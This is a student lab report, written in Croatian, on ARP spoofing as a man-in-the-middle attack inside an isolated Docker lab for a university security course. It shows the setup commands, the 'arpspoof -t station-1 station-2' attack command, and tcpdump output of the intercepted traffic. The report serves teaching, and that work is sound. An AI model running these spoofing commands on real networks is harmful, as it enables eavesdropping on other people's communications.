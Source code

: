 # Izvještaj iz SRP laboratorijskih vježbi [1]

# Man-in-the-middle attacks (ARP spoofing)

Na prvim laboratorijskim vježbama u sklopu predmeta SRP (Sigurnost računala i podataka) zadatak nam je bio, uz pomoć profesora Marija Čagalja, realizirati ARP spoofing, tip man-in-the-middle napada. 

Simulacija se sastoji od 3 virtualizirana računala u [Docker](https://docs.docker.com/get-started/overview/) mreži, od kojih su dvije "žrtve" i jedan napadač (station-1, station-2, evil-station).

ARP-spoofing je napad u kojem napadač flooda žrtvu1 ARP-replyjevima i govori joj da je žrtva2, tako da efektivno sve informacije za koje žrtva1 misli da idu žrtvi2 zapravo odlaze napadaču. Napadač može proslijediti informacije žrtvi2 i na taj način žrtve nemaju pojma da im netko sluša razgovor. Napadač može interceptati komunikaciju obostrano ili jednostrano.

Na slici je ilustrirana situacija gdje evil-station sve informacije usmjerene station-2 od strane station-1 prvo čita sam pa ih šalje station-2:

![arp spoof.png](Izvjes%CC%8Ctaj%20iz%20SRP%20laboratorijskih%20vjez%CC%8Cbi%20%5B1%5D%2092d1b47912754be9b867d41e0f71d91c/arp_spoof.png)

Prvi korak sastojao se od kloniranja profesorovog GitHub repozitorija:

```bash
$ git clone https://github.com/mcagalj/SRP-2021-22
```

Nakon toga navigirali smo do radnog direktorija:

```bash
$ cd SRP-2021-22/arp-spoofing/
```

Pomoću sljedećih skripti omogućeno je pokretanje i zaustavljanje procesa:

```bash
$ ./start.sh
$ ./stop.sh
```

Listanje aktivnih containtera nakon startanja:

```bash
$ docker ps

CONTAINER ID   IMAGE     COMMAND   CREATED              STATUS              PORTS     NAMES
a664746f98ee   srp/arp   "bash"    About a minute ago   Up About a minute             evil-station
bda23c9515c4   srp/arp   "bash"    About a minute ago   Up About a minute             station-2
35944ef80726   srp/arp   "bash"    About a minute ago   Up About a minute             station-1
```

Pokretanje basha u svim kontenjerima:

```bash
$ docker exec -it station-1 bash
root@station-1:/#

$ docker exec -it station-2 bash
root@station-2:/#

docker exec -it evil-station bash
root@evil-station:/#
```

Konfiguracija station-1 containera:

```bash
root@station-1:/# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.2  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:ac:12:00:02  txqueuelen 0  (Ethernet)
        RX packets 17  bytes 1382 (1.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Konfiguracija station-2 containera:

```bash
root@station-2:/# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.4  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:ac:12:00:04  txqueuelen 0  (Ethernet)
        RX packets 13  bytes 1006 (1.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Iz navedenog vidimo da se containeri nalaze na istim mrežama!

Pokretanje server TCP socketa na portu 3322 na containteru station-2:

```bash
root@station-2:/# netcat -lp 3322
```

Otvaranje client TCP socketa na istom portu pod hostname station-2:

```bash
root@station-1:/# netcat station-2 3322
```

Naši containeri sada mogu komunicirati (obostrano)!

![Untitled](Izvjes%CC%8Ctaj%20iz%20SRP%20laboratorijskih%20vjez%CC%8Cbi%20%5B1%5D%2092d1b47912754be9b867d41e0f71d91c/Untitled.png)

Kreće napad evil-station:

```bash
root@evil-station:/# arpspoof -t station-1 station-2
2:42:ac:12:0:3 2:42:ac:12:0:3 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:3 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
2:42:ac:12:0:3 2:42:ac:12:0:3 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:3
...
```

gdje je station-1 target a station-2 host. Interceptaju se paketići prema hostu, a ARP poisona se target (napadač konstantno šalje ARP replyjeve targetu i govori joj da je on host).

Praćenje prometa:

```bash
root@evil-station:/# tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
13:23:03.980513 ARP, Reply station-2.srp-lab is-at 02:42:ac:12:00:03 (oui Unknown), length 28
13:23:03.980532 ARP, Reply station-2.srp-lab is-at 02:42:ac:12:00:03 (oui Unknown), length 28
13:23:05.980652 ARP, Reply station-2.srp-lab is-at 02:42:ac:12:00:03 (oui Unknown), length 28
13:23:05.980671 ARP, Reply station-2.srp-lab is-at 02:42:ac:12:00:03 (oui Unknown), length 28
13:23:06.816954 IP station-1.srp-lab.53226 > station-2.srp-lab.3322: Flags [P.], seq 1457301262:1457301266, ack 742362051, win 502, options [nop,nop,TS val 302567903 ecr 4023470090], length 4
13:23:07.980790 ARP, Reply station-2.srp-lab is-at 02:42:ac:12:00:03 (oui Unknown), length 28
```